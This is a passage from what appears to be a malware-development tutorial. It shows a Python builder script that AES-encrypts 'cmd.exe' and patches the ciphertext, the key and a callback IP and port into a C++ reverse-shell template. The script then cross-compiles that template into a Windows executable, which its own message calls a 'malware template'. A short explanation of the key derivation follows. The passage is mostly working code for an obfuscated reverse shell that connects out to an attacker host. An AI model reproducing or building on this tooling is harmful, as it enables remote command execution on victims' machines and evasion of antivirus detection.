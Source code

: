 ```python
    return output_str.split("0x")

def AESencrypt(plaintext, key):
    k = hashlib.sha256(key).digest()
    iv = 16 * '\x00'
    plaintext = pad(plaintext)
    cipher = AES.new(k, AES.MODE_CBC, iv.encode("UTF-8"))
    ciphertext = cipher.encrypt(plaintext.encode("UTF-8"))
    ciphertext, key = convert(ciphertext), convert(key)
    ciphertext = '{' + (' 0x'.join(x + "," for x in ciphertext)).strip(",") + ' };'
    key = '{' + (' 0x'.join(x + "," for x in key)).strip(",") + ' };'
    return ciphertext, key

my_secret_key = urandom(16)
ip, port = "10.9.1.6", "4444"

## process cmd.exe
plaintext = "cmd.exe"
ciphertext, key = AESencrypt(plaintext, my_secret_key)

## open and replace our payload in C++ code
tmp = open("shell-aes.cpp", "rt")
data = tmp.read()
data = data.replace('unsigned char myCmd[] = { };', 'unsigned char myCmd[] = ' + ciphertext)
data = data.replace('unsigned char mySecretKey[] = { };', 'unsigned char mySecretKey[] = ' + key)
data = data.replace('char *ip = "127.0.0.1";', 'char *ip = "' + ip + '";')
data = data.replace('short port = 4444;', 'short port = ' + port + ';')
tmp.close()
tmp = open("shell3.cpp", "w+")
tmp.write(data)
tmp.close()

## compile
try:
    cmd = "i686-w64-mingw32-g++ shell3.cpp -o shell.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive >/dev/null 2>&1"
    os.system(cmd)
    os.remove("./shell3.cpp")
except Exception as e:
    print ("error compiling malware template :(")
    print (str(e))
    sys.exit()
else:
    print (cmd)
    print ("successfully compiled :)")
```

and this function ***(1)*** takes a `key` which is randomized (16 bytes random string) ***(2)***, and the key is then transform into the SHA256 hash and then it is used as a key for encrypting plaintext.
![AES encryption](/assets/images/5/2021-09-15_13-35.png){:class="img-responsive"}

